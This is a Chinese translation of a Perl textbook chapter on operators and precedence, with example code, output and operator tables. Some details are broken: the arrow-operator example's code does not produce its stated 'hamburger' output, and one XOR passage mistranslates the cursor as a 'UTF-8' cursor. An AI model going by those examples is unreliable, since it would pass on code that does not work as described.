| 处理赋值 **=**、**+=**、**-=** 及更多 | 172 |
| 使用逗号操作符：`,` | 173 |
| 右向列表操作符 | 174 |
| 使用逻辑 **not** | 174 |
| 使用逻辑 **and** | 175 |
| 使用逻辑 **or** | 176 |
| 使用逻辑异**或：** **xor** | 178 |
| 引号及类引号操作符 | 178 |
| 文件 I/O 操作符：**\< \>** | 179 |
| 使用 **\<FILEHANDLE\>** | 180 |
| 使用 **\< \>** | 180 |
| 使用 **\<$scalar\>** | 181 |
| 使用 **\<*pattern*\>** | 181 |
| 在循环中使用 **\<** 和 **\>** | 181 |
| Perl 没有的 C 操作符 | 182 |

## 深入探讨

在前两章中，我们讨论了 Perl 中数据处理的基础——标量、列表、数组和哈希。这些结构构成了在 Perl 中处理数据的基础。在本章中，我将开始介绍如何使用操作符来处理这些数据。

使用操作符，你可以操作数据，即使只是简单的加法，使用加法操作符 +，像这样：

```
print 2 + 2;
```

4

或者，稍微复杂一点，如三元条件操作符。这个例子接受一个从 1 到 15 的数字，返回对应的十六进制数字；请参阅本章"立即解决方案"部分的"使用条件操作符：?:"主题：

```
while (<>) {
    print $_ < 10 ? $_ : "${\((a .. f)[$_ - 10])}\n";
}
```

Perl 操作符有多种不同类型，但你可以将它们分为一元、二元、三元和列表操作符：

-   *一元操作符*如 not 操作符 !，接受一个操作数（例如，**$notvariable = !$variable**，将 **$variable** 的逻辑反存储在 **$notvariable** 中）。

-   *二元操作符*如加法操作符 +，接受两个操作数（例如，**$sum = 2 + 2**，将 4 存储在 **$sum** 中）。

-   *三元操作符*如条件操作符 ?:，接受三个操作数（例如，**$absvalue = $variable >= 0 ? $variable : -$variable**，求 **$variable** 中值的绝对值）。

-   *列表操作符*如 print 操作符 **print**，接受列表操作数（例如，**print 1, 2, 3**）。

## Perl 中的函数与操作符

你可能会惊讶地看到 **print** *函数*被称为 **print** *操作符*。在 Perl 中，当你像 **print** 这样不使用括号来使用函数时，它被视为操作符。当你使用真正的 Perl 文档时，你会发现 *function* 和 *operator* 这两个术语经常互换使用，区别在于你是否使用括号来传递参数。Perl 的规则是：如果它看起来像函数——意味着参数列表用括号括起来——它就是函数，操作符优先级不是问题。如果你不使用括号，Perl 将函数视为操作符，操作符优先级适用。优先级是使用操作符时的一个重要话题，我现在就来介绍一下。

## 操作符优先级

在 Perl 中，你必须考虑操作符优先级；通常，你在同一个表达式中使用多个操作符——例如，看看这一行：

```
print 2 + 3 * 4;
```

Perl 会先将 **2** 和 **3** 相加，然后再将结果乘以 **4** 吗？或者，它会先将 **3** 乘以 **4**，然后加上 **2**？Perl 的操作符优先级规则解决了这个问题；乘法 * 的优先级高于加法 +，所以 Perl 会先将 **3** 乘以 **4**，然后加上 **2**：

```
print 2 + 3 * 4;
```

14

如果你愿意，可以使用括号来自己设置执行顺序——这是一个重要的要点，可以在有任何疑问时解决优先级问题：

```
print ((2 + 3) * 4);
```

20

注意，我没有将上面的代码写成这样：

```
print (2 + 3) * 4;
```

这是因为 **print** 可以作为操作符或函数工作；如果你使用括号，你是在告诉 Perl 将其作为函数使用，在这种情况下，传递表达式 **2 + 3** 给 print。**print** 函数照做了，这就是你得到的结果：

```
print (2 + 3) * 4;
```

5

这是一个需要习惯的棘手要点，但它是必须掌握的关键点。如果你使用括号，Perl 可能会将你的意思解释为想要向函数传递一个或多个参数，而不是建立优先级。

如果你不想让 Perl 将像 **print** 这样的列表操作符解释为函数，你可以在括号前使用一元 + 操作符，它除了告诉 Perl 你不是想用括号表示函数调用外，没有其他作用：

```
print +(2 + 3) * 4;
```

20

如有疑问，请使用括号；Perl 解释器会弄清楚：

Perl 操作符按优先级降序排列（即，第一行优先级最高，因此最先求值），如表 4.1 所示。标记为"结合性"的列表示操作符在其参数的方向，向右或向左。我们将在本章的"立即解决方案"部分看到这是如何工作的。

如你所见，操作符优先级是一个重要的话题，因此，我将按照表 4.1 来组织本章——优先级最高的操作符排在前面。

### 表 4.1 操作符优先级。

| 操作符 | 结合性 |
| --- | --- |
| 项和左向列表操作符 | 左 |
| -> | 左 |
| ++ -- | 无 |
| ** | 右 |
| ! ~ \ 一元 + 一元 - | 右 |
| =~ !~ | 左 |
| * / % x | 左 |
| + - . | 左 |
| << >> | 左 |
| 命名一元操作符、文件测试操作符 | 无 |

# 第4章 运算符与优先级

| 运算符 | 结合性 |
| --- | --- |
| < > <= >= lt gt le ge | 无 |
| == != <=> eq ne cmp | 无 |
| & | 左 |
| \| ^ | 左 |
| \|\| | 左 |
| .. ... | 无 |
| ?: | 右 |
| = += -= *= 等 | 右 |
| , => | 左 |
| 右向列表运算符 | 无 |
| not | 右 |
| and | 左 |
| or xor | 左 |

**提示：** 某些 Perl 运算符是为配合我们尚未涉及的编程技术（如引用）而设计的，因此如果你不熟悉某个特定主题，可以稍后跳读以获取详细信息。Perl 的结构非常紧密交织，这类前向引用不可避免，但我会尽量将其保持在最低限度。

### 即时解决方案

### 最高优先级：项与左向列表运算符

编程正确性专员正在测试你的 Perl 知识——“你了解 Perl 运算符优先级。”“什么具有最高优先级？”专员问道。“嗯，”你说，“问得好。”

*项*在 Perl 中具有最高优先级。项包括变量、引号、括号内的表达式、**do** 和 **eval** 构造、匿名数组和哈希（你可以用 `[ ]` 和 `{ }` 创建——详见第9章关于引用的更多信息），以及参数用括号括起来的函数。

例如，关于优先级这里可能存在一些疑问：

```
print 1 + 2 * 3;

7
```

```
print ((1 + 2) * 3);

9
```

引号也是如此，它们通过将表达式转换成字符串，使其成为一个项：

```
print "1 + 2 * 3";

1 + 2 * 3
```

*列表运算符*与项具有相同的优先级级别。具体来说，这些运算符具有很强的*左向*优先级，即在与运算符左侧的项一起使用时（然而，这些运算符相对于右侧的项优先级较低）。

一个例子可以说明这一点。如果你不使用括号，**sort** 函数可以像列表运算符一样工作，所以请看这个表达式：

```
print 1, 2, 3, 4, sort 9, 8, 7, 6, 5;
```

在这种情况下，**sort** 比其左侧的项具有更高的优先级，因此在它们之前被求值，这意味着 **sort** 在将其后面的项目添加到要打印的列表之前就已执行。另一方面，**sort** 相对于其右侧的项优先级较低，因此逗号运算符先执行，从数字 **9, 8, 7, 6, 5** 创建一个列表，该列表被传递给 **sort**。**sort** 的结果就表达式的其余部分而言，其作用类似于一个项，因此上述语句的结果如下：

```
print 1, 2, 3, 4, sort 9, 8, 7, 6, 5;
```

> 123456789

### 使用箭头运算符：->

如果你有一个数组或哈希的引用，如何使用数组索引或哈希键来指定特定元素？你可以使用箭头运算符 `->`，这是 Perl 的中缀解引用运算符，其模式仿照 C 语言中的相同运算符。

当与右侧的 `[ ]` 或 `{ }` 一起使用时，箭头运算符的左侧必须是对数组或哈希的引用（有关引用的更多信息，请参阅第9章），而 `->` 运算符允许你解引用该引用，从而使 `[ ]` 或 `{ }` 中的项分别被视为数组索引或哈希键。

下面是一个示例，我使用 `\` 运算符创建对哈希的引用，并使用 `->` 运算符解引用哈希的一个元素：

```
$hash{fruit} = apple;
$sandwich{drink} = bubbly;

$hashref = \%hash;
print $hashref->{sandwich};
```

> hamburger

如果你不在右侧使用 `[ ]` 或 `{ }`，并且箭头运算符的左侧不是数组或哈希的引用，那么左侧必须是对象或类名（有关类和对象的更多信息，请参阅第19章），而右侧必须是一个方法，如下所示：

```
$result = $myobject->mymethod($data);
```

### 处理自增和自减：++ 和 --

> “嗯，”新手程序员说，“这和我过去在 C++ 中使用的方法不同：**$value = $value + 1**。我以前可以用 **++** 来做这件事，”新手程序员悲伤地说。“没问题，”你说，“Perl 也支持 **++**。只需使用 **$value++**。”

自增运算符 **++** 和自减运算符 **--** 的工作方式与 C 语言中相同。如果它们出现在变量之前，它们在返回值*之前*递增或递减变量；如果放在变量之后，它们在返回值*之后*递增或递减变量。重要的是要认识到，这些运算符的工作方式取决于你将它们用作*前缀*还是*后缀*运算符。

例如，如果你有两个变量 **$variable1** 和 **$variable2**：

```
$variable1 = 1;
$variable2 = 1;
```

你可以像这样使用 **++** 作为前缀运算符来递增 **$variable1**：

```
print ++$variable1 . "\n";
```

*2*

另一方面，如果你将 **++** 用作 **$variable2** 的后缀运算符，**++** 将在返回其值之后递增 **$variable2**：

```
print $variable2++ . "\n";
print $variable2 . "\n";
```

*1*
*2*

另请注意，**++** 可以对存储在标量变量中的字符串起作用（只要这些标量变量从未在数值上下文中使用过）。这段代码：

```
$variable = 'AAA';
print ++$variable . "\n";
$variable = 'bbb';
print ++$variable . "\n";
$variable = 'zzz';
print ++$variable . "\n";
```

产生以下结果：

```
AAB
bbc
aaaa
```

### 处理幂运算：**

技术支持来电。“快点，”他们说，“我们需要知道 2 的 10 次方是多少。”“嗯，”你说，“你可以计算 2 * 2 * 2 * 2 * 2 * 2 * 2 * 2 * 2 * 2。”技术支持表示怀疑。“这看起来不太优雅，”他们说。“好吧，”你告诉他们，“使用幂运算符。”

Perl 中的幂运算符是 `**`。这个二元运算符将第一个参数作为底数，第二个参数作为指数进行运算。下面是一个将 2 的 16 次方的示例：

```
print 2 ** 16;
```

```
65536
```

负指数呢？没问题：

```
print 2 ** -1;
```

```
0.5
```

下面是个真正的考验：你能使用非整数指数吗？是的，可以；例如，下面是计算 144 的平方根的方法：

```
print 144 ** .5;
```

```
12
```

下面是 81 的四次方根：

```
print 81 ** .25;
```

```
3
```

### 使用符号一元运算符：!, -, ~, 和 `\`

你正在编写一个通用例程，从文件中读取数据，并使用名为 **$file_is_open** 的变量来确定文件是否已打开以供读取。你希望在文件*未*打开时返回一个错误，那么如何翻转 **$file_is_open** 的逻辑值呢？很简单，只需使用逻辑非运算符 **!**，就像这样：**!$file_is_open**。如果 **$file_is_open** 为假，此表达式返回真；如果 **$file_is_open** 为真，则返回假。

**!** 运算符是四个符号一元（即一个参数）运算符之一。Perl 中有四个符号一元运算符：

- **!** 逻辑非（即 not 运算符）。
- **-** 算术取反。
- **~** 按位取反（即补码）。
- **\\** 创建对其后内容的引用。

像 **!** 这样的逻辑运算符作用于真值，而不是算术值。例如，0 的逻辑非是 1：

```
print !0;
```

1

你可以使用算术取反运算符像这样对一个值取反（请注意，此运算符翻转值的符号，并不一定会使其变为负数）：

```
$value = 3;
print -$value;
```

-3

按位取反只是翻转数字中的所有位。你可以通过使用 **~0** 将存储值中的所有位设置为 1，来获得主机计算机上无符号整数容量的指示：

```
print ~0;
```

4294967295

这得出 **4294967295**，即 2 ** 32 – 1，因此无符号整数存储为 32 位值。

**\`** 运算符在 Perl 中返回一个引用（有关引用的详细信息，请参阅第9章）。这里我获取名为 **$variable1** 的变量的引用，然后使用标量解引用运算符 `$` 解引用该引用：

```
$variable1 = 5;
$reference = \$variable1;
print $$reference;
```

5

> **提示：** Perl 官方仅承认上述四个一元符号运算符，但严格来说，解引用运算符——**$**, **@**, **%**, 和 **&**——也应添加到该列表中。

### 使用绑定运算符：=~ 和 !~

绑定运算符 `=~` 将一个标量表达式*绑定*到模式匹配。

像 **s///**, **m//**, 和 **tr//** 这样的字符串操作（有关字符串处理和模式匹配的更多信息，请参阅第6章）默认使用 **$_**。你可以使用绑定运算符 **=~** 使这些操作与你指定的标量变量一起工作。例如，如果你将一个字符串放在 **$line** 中，那么你可以像这样使用 **m//** 匹配字符串操作：

```
$line = ".Hello!";
```

```
if ($line =~ m/^\./) {
    print "You shouldn't start a sentence with a period!";
}
```

*You shouldn't start a sentence with a period!*

**!~** 运算符与 **=~** 类似，只是返回值被取反。更多相关信息请参阅第6章。

| 相关解决方案： | 所在页码： |
| --- | --- |
| 在 **m//** 和 **s///** 中使用修饰符 | 250 |


## 处理乘法和除法：* 与 /

新手程序员出现了。"快点，"新手程序员说，"编程正确性沙皇就要来了，而我的程序还没完成：如何将两个数相乘？""小菜一碟，"你说，"用 `*` 运算符。"新手程序员松了一口气，鞠了一躬，然后消失了。

乘法运算符 `*` 用于将两个数相乘：

```
print 2 * 4;
```

8

如果你将浮点数相乘，结果将是浮点数：

```
print 2 * 3.1415926535;
```

6.283185307

除法运算符 `/` 用于将两个数相除：

```
print 16 / 4;
```

4

如果你的数字不能整除，你将得到一个浮点数结果：

```
print 16 / 3;
```

5.3333333333333

请注意，你可以像这样通过使用 `integer` 模块强制 Perl 使用整数算术，这类似于对所有操作应用 Perl 函数 **int**：

```
use integer;
```

```
print 16 / 3;
```

5

## 处理取模和重复：% 与 x

编程正确性沙皇正盯着你的肩膀，看着你在字符串中输入最后12,000个空格。编程正确性沙皇很感兴趣，问道："你在做什么？""嗯，"你说，"我需要一个初始化了12,000个空格的字符串，我刚刚已经输入了。但现在我需要回去数所有12,000个空格，以确保我没有输错数量。""嗯，"编程正确性沙皇说，"使用重复运算符怎么样？"

重复运算符 **x** 允许你重复一个操作。在标量上下文中，**x** 返回一个由左操作数重复右操作数指定的次数构成的字符串。在列表上下文中，只要左操作数是一个括号中的列表，它就重复该列表。

例如，以下是如何打印由30个连字符组成的字符串：

```
print '-' x 30;

------------------------------
```

取模运算符 `%` 返回两个数的模——即除法后的余数：

```
print 16 % 3;

1
```

在不同进制之间转换以逐位剥离数字时，使用取模运算符特别有用，例如在这个将数字转换为十六进制的例子中：

```
use integer;

$value = 257;

while($value) {
    push @digits, (0 .. 9, a .. f)[$value % 16];
    $value /= 16;
}

while(@digits) {
    print pop @digits;
}

101
```

## 处理加法、减法和连接：+、- 和 .

你已经构建了所有你想要连接成一个更大字符串的子字符串，并且你使用 `+` 运算符将它们相加。最终的字符串打印出来是 0。你怀疑地看着它，觉得这不对。其他语言允许你使用 `+` 运算符连接字符串，那么在 Perl 中你该怎么做呢？

Perl 中最基本的操作符可能就是 `+`、`-` 和 `.` 运算符。加法运算符 `+` 返回两个数的和：

```
print 2 + 2;
```

4

`-` 运算符将两个数相减并返回差值：

```
print 4 - 2;
```

2

二元 `.` 连接两个字符串，如下所示：

```
print "Hello " . "there.";
```

请注意，还有其他连接字符串的方式你可能觉得更有用，例如 **join** 函数（参见第8章）。当然，你也可以根据情况使用变量内插：

```
$hello = "Hello";
$there = "there";
print "$hello $there.";
```

Hello there.

## 使用移位运算符：<< 和 >>

你正在处理32位值，并希望将值4加载到高字（即高16位）。你可以使用 **pack** 函数，但不想那么麻烦，那么如何将值4加载到一个双字值的高字呢？你可以像这样使用左移位运算符：**4 << 16**。

左移位运算符 **<<** 返回其左参数向左移动右参数指定的位数。例如：

```
print 2 << 10;
```

2048

右移位运算符 **>>** 返回其左参数向右移动右参数指定的位数。例如：

```
print 2048 >> 3;
```

256

> **提示：**请注意，你只能对整数使用 << 和 >>。

程序员经常想使用 **>>** 来获取整数末尾的位，但这是行不通的，因为 **>>** 返回的是剥离掉末尾位之后剩下的值。要获取末尾的位，请改用按位 **与** 运算符 **&**（参见本章后面的 "**按位与值：&**"）。

下面是一个例子，我通过将24与15（15的二进制是1111，所以 **24 & 15** 返回24的最后四位）进行按位与运算，得到了数字24的最后四位：

```
print 24 & 15;
```

8

## 使用命名一元运算符

那么什么是命名一元运算符？当你没有将参数括在括号中时，Perl 将像 **sqrt**、**defined**、**eval**、**return**、**chdir**、**rmdir**、**oct**、**hex**、**undef**、**exists** 以及其他只接受一个标量参数（不是列表）的函数称为*命名一元运算符*。

这里有一个使用平方根函数 **sqrt** 作为命名运算符的例子：

```
print sqrt 4;
```

2

回想一下本章开头，如果你没有将函数的参数括在括号中，Perl 将函数视为操作符。我们在本章开头看到了左列表操作符，命名一元运算符，也就是只接受一个标量参数的函数，其优先级要低得多，我在这里提到它们是因为在优先级顺序中它们就属于这个位置。

## 使用文件测试运算符

你正在编写你宝贵的数据库程序 *SuperDuperDataCrunch*。是时候打开数据库文件并读取数据了。但你不想仅仅在数据库文件不存在时就尝试打开它，因为那会导致错误，让你的程序看起来不够专业。那么你该怎么办呢？

你可以使用 **-e** 文件测试运算符来检查文件是否存在。Perl 支持大量文件测试运算符，它们为你提供关于文件和文件句柄的大量信息。（有关 Perl 中处理文件的更多信息，请参见第13章。）

以下是如何使用文件测试运算符，其中 **X** 代表你感兴趣的文件测试运算符：

```
-X FILEHANDLE
-X EXPR
-X
```

如果省略参数，文件测试运算符测试 **$_**（**-t** 除外，它默认测试 **STDIN**）。文件测试运算符如表4.2所示。（请注意，除非你熟悉 Unix，否则你可能不熟悉该表中的所有信息——例如，该表中的 **uid** 和 **gid** 指的是 Unix 用户 ID 和组 ID；Perl 诞生于 Unix，这个事实经常显现出来。）

这里有一些我使用文件句柄 **STDIN** 的例子（请注意，这些操作符对真值返回 1）：

```
print -e STDIN;        #STDIN 存在吗？
```

1

```
print -t STDIN;          #它连接到终端吗？

1
```

```
print -z STDIN;          #它的大小为零吗？

1
```

## 表4.2 文件测试运算符

| 运算符 | 返回的文件信息 |
|----------|-------------------------------------|
| -r | 可被有效 **uid/gid** 读取。 |
| -w | 可被有效 **uid/gid** 写入。 |
| -x | 可被有效 **uid/gid** 执行。 |
| -o | 由有效 **uid** 拥有。 |
| -R | 可被真实 **uid/gid** 读取。 |
| -W | 可被真实 **uid/gid** 写入。 |
| -X | 可被真实 **uid/gid** 执行。 |
| -O | 由真实 **uid** 拥有。 |
| -e | 文件存在。 |
| -z | 大小为零。 |
| -s | 大小非零（此运算符返回文件大小）。 |
| -f | 是普通文件。 |
| -d | 是目录。 |
| -l | 是符号链接。 |
| -p | 是命名管道。 |
| -S | 是套接字。 |
| -b | 是块特殊文件。 |
| -c | 是字符特殊文件。 |
| -t | 测试 **文件句柄** 是否打开到终端。 |
| -u | 已设置 **setuid** 位。 |
| -g | 已设置 **setgid** 位。 |
| -k | 已设置粘滞位。 |
| -T | 是文本文件（自 Perl v5.6.0 起，Perl 也识别 Unicode UTF-8 为文本）。 |
| -B | 是二进制文件。 |
| -M | 脚本启动时文件的年龄（以天为单位）。 |
| -A | 自上次访问文件以来的时间。 |
| -C | 自上次 **inode** 变更以来的时间。 |

# 第4章 操作符与优先级


## 使用关系（比较）运算符

"你看，"新手程序员说，"我正在用这段比较代码对字符串列表进行字母排序"：`if $a < $b`……"等一下，"你说，"这里有个问题。你用错了比较运算符。"

Perl 关系运算符是二元运算符，用于执行比较操作，为真时返回 1，为假时返回 0。大于等于、小于等于等关系运算符如表 4.3 所示。

特别注意，数值比较使用一组运算符，字符串比较使用另一组运算符（字符串比较使用 Unicode 值），如表 4.3 所示。同时请注意，大于等于运算符是 `>=`，而不是 `=>`，后者是逗号的同义运算符。

下面是一个示例，我对用户的输入进行数值检查，如果输入大于 100 则显示错误消息：

```
while (<>) {
    if ($_ > 100) {
        print "Too big!\n";
    }
}
```

你也可以使用逻辑运算符如 `&&` 和 `||`——或者它们的低优先级形式，即 **and** 运算符和 **or** 运算符——来连接逻辑子句，如下面这个示例，我要求用户输入 **k** 到 **m** 之间的字母：

```
print "Please enter letters from k to m\n";
while (<>) {
    chop;
    if ($_ lt 'k' or $_ gt 'm') {
        print "Please enter letters from k to m\n";
    } else {
        print "Thank you - let's have another!\n";
    }
}
```

## 表 4.3 关系运算符。

| 运算符 | 数据类型 | 返回值 |
| --- | --- | --- |
| < | 数值 | 如果左操作数小于右操作数则为真。 |
| > | 数值 | 如果左操作数大于右操作数则为真。 |
| <= | 数值 | 如果左操作数小于或等于右操作数则为真。 |
| >= | 数值 | 如果左操作数大于或等于右操作数则为真。 |
| lt | 字符串 | 如果左操作数小于右操作数则为真。 |
| gt | 字符串 | 如果左操作数大于右操作数则为真。 |
| le | 字符串 | 如果左操作数小于或等于右操作数则为真。 |
| ge | 字符串 | 如果左操作数大于或等于右操作数则为真。 |

## 使用相等运算符

"喂，技术支持，"你说，"我在 Perl 中发现了一个 bug。" "哦，是吗？"他们问。 "确实如此，"你说，"看看这段代码，我比较 **4** 和 **5**，Perl 却说它们相等！"

```
$v1 = 4;
$v2 = 5;
if ($v1 = $v2) {
    print "\$v1 = \$v2.";
}

$v1 = $v2;
```

"嗯哼，"技术支持说，"你为什么不用 Perl 相等运算符 **==** 来测试相等性，而用赋值运算符 **=** 呢？你在括号里做的事情只是将 **$v2** 的值赋给 **$v1**，然后检查赋的值是否非零。" "哦，"你说。

Perl 支持表 4.4 中列出的相等运算符——注意，和关系运算符一样，数值和字符串使用不同的运算符。同时注意非常有用的 **!=** 运算符，它用于测试不相等。

## 表 4.4 相等运算符。

| 运算符 | 类型 | 返回值 |
| --- | --- | --- |
| == | 数值 | 如果左操作数等于右操作数则为真。 |
| != | 数值 | 如果左操作数不等于右操作数则为真。 |
| <=> | 数值 | −1、0 或 1，取决于左操作数在数值上小于、等于还是大于右操作数。 |
| eq | 字符串 | 如果左操作数等于右操作数则为真。 |
| ne | 字符串 | 如果左操作数不等于右操作数则为真。 |
| cmp | 字符串 | −1、0 或 1，取决于左操作数小于、等于还是大于右操作数。 |

### 即时解决方案

下面是一个示例，它打印错误消息，直到用户输入字符 "y" 为止：

```
print "Please type the letter y\n";
while (<>) {
    chop;
    if ($_ ne 'y') {
        print "Please type the letter y\n";
    } else {
        print "Do you always do what you're told?\n";
        exit;
    }
}
```

用户运行此代码可能得到的输出如下：

```
Please type the letter y
a
Please type the letter y
b
Please type the letter y
c
Please type the letter y
y
Do you always do what you're told?
```

请注意，在测试相等性时应使用 == 而不是 =，除非你确实清楚自己在做什么。如果你使用 =，则是将一个值赋给另一个值，返回值就是你赋的值——这在某些情况下可能会派上用场：

```
$v1 = 1;
$v2 = 2;

if ($v1 = $v2) {
    print "Assigned a nonzero value.";
}
```

```
Assigned a nonzero value.
```

## 4. 运算符与优先级

## 比较浮点数值

新手程序员又打来电话了，说道："过程控制部门要我编写代码，比较加工零件的长度是否等于某个公差，但 Perl 将长度存储为十五位小数，而且没有两个值*永远*相等。" 新手程序员急切地问道，"我该*怎么办*？" "没问题，"你说，"使用 **sprintf**。"

如果你想将浮点数比较到特定的小数精度，请使用 **sprintf** 函数（详见第 11 章了解 **sprintf** 的细节）将它们按该精度转换为字符串，然后比较字符串。下面是一个示例，我将两个数比较到四位小数。

```
sub eqfloat4 {return sprintf("%.4f", shift) eq sprintf("%.4f", shift)}

if (eqfloat4 1.23455, 1.23456) {
    print "Numbers are equal to four decimal places.";
}
```

```
Numbers are equal to four decimal places.
```

| 相关解决方案： | 详见页码： |
| --- | --- |
| **sprintf** 格式化字符串 | 493 |

## 按位与运算：&

你需要一个值的最后三位——而且只要最后三位——。你如何获取它们？右移运算符无法帮到你，因为它会将位移出并返回剩余部分，而不是返回移出的位。因此，你需要使用按位 **与** 运算符 **&**，将该值与 7（即二进制的 111）进行与运算，以获得你想要的结果。（注意，在这种情况下取模运算符也可以实现。）

按位 **与** 运算符 **&** 执行逻辑与运算，将操作数逐位进行与运算并返回结果——即第一个操作数中的每一位与第二个操作数中的对应位按照表 4.5 所示进行与运算。（第一列是一个操作数，顶行是另一个操作数，其余部分显示两个操作数进行与运算的结果。）**与** 运算符的名称来源于这样一个事实：只有当两个位都为 1 时，结果位才为 1。

## 表 4.5 & 运算符。

| 与 | 0 | 1 |
|-----|---|---|
| 0 | 0 | 0 |
| 1 | 0 | 1 |

例如，将 5（位 0 和位 2 为 1）与 4（只有位 2 为 1）进行与运算，结果为 4：

```
print 5 & 4;
```

```
4
```

当你需要检查值中的某些位时，使用 **&** 非常方便。如果你想检查名为 **$flag** 的变量中的第三位（最右边的位是第 0 位）是否被设置（即等于 1）怎么办？你可以使用这样的代码：

```
$flag = 2030136;

if ($flag & 1 << 3) {
    print "The third bit is set.";
}
else {
    print "The third bit is not set.";
}
```

```
The third bit is set.
```

## 按位或运算：|

**与** 运算符非常适合检测值中的某一位或多是否被设置，但如何设置它们呢？最简单的方法是使用按位 **或** 运算符 |。

按位 **或** 运算符执行逻辑或运算，将操作数逐位进行或运算并返回结果，如表 4.6 所示。**或** 运算符的名称来源于这样一个事实：只要其中一个位为 1，结果位就为 1。

## 表 4.6 | 运算符。

| 或 | 0 | 1 |
|-----|---|---|
| 0 | 0 | 1 |
| 1 | 1 | 1 |

例如，将 4（位 2 为 1）与 1（位 0 为 1）进行或运算，结果为 5（位 0 和位 2 均为 1）：

```
print 4 | 1;
```

```
5
```

**与** 运算符 **&** 适合检测某位或多是否被设置，**或** 运算符适合设置位，这通常是 | 在代码中的用法。下面是一个示例，我使用 | 的快捷方式与相等运算符 **|=** 来设置一个值的第 3 位：

```
$flag = 0;

$flag |= 1 << 3;

if ($flag & 1 << 3) {
    print "The third bit is set.";
}
else {
    print "The third bit is not set.";
}
```

```
The third bit is set.
```

## 按位异或运算：^

新手程序员悄悄找到你，说道："我觉得大老板在偷看我的邮件，有没有什么简单的方法可以加密？" 你说："你可以使用 Perl 的 **crypt** 函数（见第 8 章），但那只能单向加密；没有办法解密。" "那不太好，"新手程序员说。 "嗯，"你说，"你可以使用异 **或** 运算符 **Xor** 来加密你的文本。" "告诉我怎么操作，"新手程序员说。

按位异或（**Xor**）运算符 **^** 执行异或运算，将操作数逐位进行异或运算并返回结果，如表 4.7 所示。

请注意，**Xor** 的行为与 **或** 运算相同，唯一的区别在于当第一个操作数中的 1 遇到第二个操作数中的 1 时——在这种情况下，结果为 0。


## 表格 4.7  ^ 运算符。

| 异或 | 0 | 1 |
|-----|---|---|
| 0 | 0 | 1 |
| 1 | 1 | 0 |

以下是一些使用异或运算符的示例：

```
print 0 ^ 0;
```

*0*

```
print 1 ^ 0;
```

*1*

```
print 1 ^ 1;
```

*0*

```
print 0 ^ 1;
```

*1*

```
print 5 ^ 4;
```

*1*

大多数程序员从不使用 **^**，因为**异或**运算有点晦涩难懂。但它确实有一个大用处——如果你将数字 **A** 与数字 **B** 进行两次**异或**运算，你会再次得到数字 **A**。这在图形界面中移动 UTF-8 光标时经常被用到——你可以将光标的比特位**异或**到屏幕上，当你想移动光标时，你再次对其进行**异或**，原始屏幕就恢复了。你也可以用这种方式加密文本，我稍后会展示。

以下是双重**异或**运算的原理——在这个例子中，我将 **$v1** 与 **$v2** 进行两次**异或**运算；注意 **$v1** 最后被还原了：

```
$v1 = 555555;
$v2 = 666666;
$v3 = $v1 ^ $v2;
$v4 = $v3 ^ $v2;

print $v4;
```

*555555*

## 第 4 章  运算符与优先级

以下是如何**异或**文本——首先，你将文本与一个密码进行**异或**运算，对其进行加密：

```
$v1 = "hi there";
$v2 = "password";
$v3 = $v1 ^ $v2;

print "Encrypted: $v3\n";
```

> *Encrypted: &$rw#4?@*

要解密文本，你再次将其与密码进行**异或**运算：

```
$v4 = $v3 ^ $v2;

print "Decrypted: $v4\n";
```

> *Decrypted: hi there*

> **提示：**请注意，我并非将 ***异或*** 加密作为一种安全的加密手段来介绍——只是作为一种简便的方法。不要过分依赖它，因为加密领域里遍布着随时准备破解你密码的人。我曾写过一篇关于加密的文章，其中介绍了一种简单的、安全性较低的加密方法，它涉及旋转重叠的位域。大约一周后，一位加密专家发来消息，愤怒而又满意地说他使用超级计算机“仅仅”花了两天半的时间就解密了我的成果（而且他事先知道我使用的算法，这已经算是作弊了）。

| 相关解决方案： | 找到位置： |
| --- | --- |
| 字符串处理：使用 **crypt** 加密字符串 | 357 |

## 按位字符串运算符

“好吧，”新手程序员说，“我知道可以用按位运算符处理数字，但另一种标量类型：字符串呢？” 你会说，“你也可以对字符串使用按位运算符，但要小心。”

你可以对字符串使用按位运算符——**~**、**|**、**&** 和 **^**，尽管在代码中很少见到它们这样使用。这些运算符直接作用于字符串中字符的 Unicode 值。

以下是一个示例，我使用**或**运算符 **|** 将两个字符串进行**或**运算：

```
print "h l o\n" | " e l ";
```

hello

请注意，字符集代码中大写和小写之间的差值是 32，这是空格的字符码，所以如果你在表达式中使用空格，最终可能会改变大小写，就像下面这个例子，我使用的是**异或**运算符 `^`，而不是**或**运算符 `|`：

```
print "h l o\n" ^ " e l ";
```

HELLO

如果操作数长度不同，**或**和**异或**运算符将假定较短操作数的右侧有额外的零位来进行运算。另一方面，**与**运算符将假定较长操作数被截断以匹配较短字符串。这里是一个使用**或**运算符的例子：

```
print "he" | "  llo\n";
```

hello

这里是另一个按位字符串示例，这次使用**与**运算符 `&`：

```
print "hello\n" & '____';
```

HELLO

## 使用 C 风格的逻辑与：&&

“嗯，”你说，“我想确保用户输入我程序的数字既是正数又小于 100。我该怎么做？” 你可以使用逻辑**与**运算符 `&&` 将这两个逻辑条件（称为逻辑子句）连接起来。

C 风格的逻辑**与**运算符 `&&` 可以将关系运算符子句连接起来，要求它们都为真才会返回整体为真的值。请注意，这个运算符是一个返回真值的逻辑运算符，因此与按位 `&` 运算符不同。

这里有一个在 **if** 语句中使用 `&&` 连接两个逻辑子句的例子——在这个例子中，用户输入的数字必须同时大于 0 *并且* 小于 100（关于 **if** 语句的更多信息，请参见第 5 章）：

```
print "Please enter positive numbers up to 100\n";
while (<>) {
    chomp;
    if ($_ > 0 && $_ < 100) {
        print "Thank you - let's have another!\n";
    } else {
        print "Please enter positive numbers up to 100\n";
    }
}
```

这个运算符被称为 C 风格的逻辑**与**，因为它使用与 C 语言中对应运算符相同的符号，具有相同的优先级，并且不同于另一个优先级较低的 Perl **与**运算符，后者命名为 **and**（请参见本章后面的“使用逻辑 **and**”主题）。

> **提示：**程序员通常更喜欢使用优先级较低的 Perl **and** 运算符，而不是 C 风格的 **&&** 运算符，因为他们不必担心在逻辑子句周围加上括号以获得正确的优先级。

这个运算符也被称为*短路*运算符；如果左操作数为假，则甚至不会检查或评估右操作数。例如，以下代码使用 -e 文件运算符检查某个文件是否存在，然后再尝试打开它：

```
-e "file.dat" && open (FILEHANDLE , "<file.dat");
```

尽管 **&&** 运算符被称为 C 风格，但它实际上与 C 语言中对应的运算符不同。它不是返回 0 或 1，而是实际上返回最后计算的值，这是真正的 Perl 风格（其中任何非 0 的数值都被视为真），这意味着你可以使用很少的代码执行一系列顺序测试。

## 使用 C 风格的逻辑或：||

